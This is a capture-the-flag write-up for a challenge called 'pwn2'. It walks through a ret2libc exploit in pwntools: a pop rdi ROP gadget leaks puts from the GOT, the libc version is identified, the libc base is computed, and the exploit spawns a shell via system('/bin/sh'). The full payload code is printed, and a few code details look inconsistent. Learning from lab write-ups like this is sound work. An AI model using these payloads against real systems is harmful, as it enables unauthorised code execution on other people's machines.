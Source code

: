 # pwn2

![desc](desc.png)

This program is slightly different from the last one. It gives us two inputs. I honestly didn't know why. I just decided to perform a ret2libc attack since it was the most straight forward.

Also, this challenge doesn't have a win function

![nowin](nowin.png)

In order to perform a ret2libc attack, we must first figure out what version of libc it is, as different libcs have different function offsets. However, the addresses of the functions change every time the program is run. This is supposed to be a form of protection against this attack.

However, the last three bytes in the funciton address always stays the same. As such, we can still figure out the libc version from the last three bytes.

In order to leak the address of the functions, we have to trick the program into printing them out.

This can be done with ROP. Remember how we pointed the RIP to the win function in pwn1? This is quite similar to that.

In assembly, functions take their arguments from the RDI register. As such, we have to pass in the function that we want to be leaked into RDI. This can be done with ROP gadgets.

Using ropper on the file, we can find a `pop rdi` gadget, which will basically remove the value in RDI and pass in a new one.

Here is how our payload will look like:
```
poprdi = pack(0x0000000000401196)
puts_got = pack(elf.got['puts'])
system_got = pack(elf.got['system'])
puts = pack(elf.symbols['puts'])
main = pack(elf.symbols['main'])

payload = b"A" * offset
payload += poprdi + puts_got + puts 
# payload += poprdi + system_got + puts
payload += main

# This is to get pass the first input, which doesn't allow for buffer overflows.
p.sendlineafter(b"Would you like a flag?\n", b'a')
p.sendlineafter(b"Would you like a flag?\n", payload)
p.recvuntil(b"fl4g}")

puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
# system_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
```

Basically, we are pointing the RIP to different snippets of code. These snippets of code combined will allow us to control the flow of the program.

![leak](leak.png)

With the values we obtained, we can go to https://libc.rip to figure out what libc version the program is using.

![libc](libc.png)

After downloading the libc, we must calculate the libc base. Remember how I said that the funciton addresses in the GOT change everytime when program is run? There is actually a pattern to how it is done. All the functions share a libc base, and with the libc, we know all the offsets of the functions.

We can simply take the libcbase + offset of the function in libc to get the address of the function in the program.

Libcs conatain a lot of useful functions, and right now we will make use of the system and binsh string within the libc.

Pro-tip: You can use pwninit to patch the bianry to specifically use the same libc as the server. This is useful for debugging with gdb.attach(p)

![pwninit](pwninit.png)

Here is what our payload looks like now:

```
libc = ELF("./libc6_2.35-0ubuntu3.1_amd64.so", checksec=False)

libcBase = puts_leak - libc.symbols['puts']
print(f"LIBC BASE:{hex(libcBase)}")
system = pack(elf.symbols['system'])
binsh = pack(next(libc.search(b'/bin/sh')) + libcBase)

payload = b"A" * offset
payload += ret
payload += poprdi + binsh
payload += system
```

![flag](flag.png)

Wow it works :thumbsup:

Flag:
n00bz{3xpl01t_w1th0u7_w1n_5uc355ful!}
